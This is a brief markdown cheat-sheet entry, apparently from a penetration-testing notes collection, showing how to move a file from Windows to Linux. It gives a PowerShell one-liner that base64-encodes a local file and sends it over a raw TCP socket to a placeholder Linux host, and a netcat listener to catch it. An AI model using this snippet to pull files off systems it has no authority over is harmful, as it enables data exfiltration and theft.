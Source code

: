 # File Transfer

## From Windows to Linux

Windows 10 (Powershell):
```powershell
$socket = New-Object net.sockets.tcpclient('<LINUX_IP>',<PORT>); (New-Object System.IO.StreamWriter($socket.GetStream())).WriteLine([System.Convert]::ToBase64String([io.file]::ReadAllBytes("c:\test"))); $socket.close();
```

Linux:
```
nc -lvnp <PORT>
```